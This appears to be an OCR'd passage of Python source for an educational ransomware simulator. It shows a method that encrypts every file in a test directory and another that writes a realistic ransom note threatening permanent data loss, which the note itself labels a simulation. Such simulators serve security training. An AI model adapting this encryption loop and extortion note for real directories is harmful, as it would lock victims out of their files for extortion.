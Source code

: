         except Exception as e:
            print(f"✗ Simulation error: {e}")
            if callback:
                callback(f"Simulation error: {str(e)}")
    
    def encrypt_files(self):
        """Encrypt files in the test directory"""
        try:
            file_count = 0
            files = list(self.test_dir.iterdir())
            print(f"Found {len(files)} files to encrypt")
            
            for file_path in files:
                if file_path.is_file() and not file_path.name.startswith("!!!_"):
                    print(f"Encrypting: {file_path.name}")
                    if self.encryptor.encrypt_file(file_path, self.encryption_key):
                        self.encrypted_files.append(file_path)
                        file_count += 1
                        
                        # Update UI in thread-safe manner
                        if hasattr(self, 'app') and self.app:
                            self.app.update_encryption_status(file_count, str(file_path))
                        
                        # Small delay to simulate real encryption process
                        time.sleep(0.1)
                    else:
                        print(f"✗ Failed to encrypt: {file_path.name}")
            
            print(f"✓ Encryption completed: {file_count} files encrypted")
            
        except Exception as e:
            print(f"✗ Encryption error: {e}")
            traceback.print_exc()
    
    def create_ransom_note(self):
        """Create realistic ransom note"""
        ransom_note_content = f"""
================================================================
                       !!! WARNING !!!
                      YOUR FILES ARE ENCRYPTED
================================================================

What Happened?
-------------
Your important files have been encrypted using military-grade AES-256 encryption.

Your files (.docx, .xlsx, .pdf, .txt, etc.) are now inaccessible.
Any attempt to modify, delete, or recover files without our tool will cause PERMANENT data loss.

How to Recover Your Files?
--------------------------
This is an educational simulation for cybersecurity research.
Use the recovery button to decrypt your files.
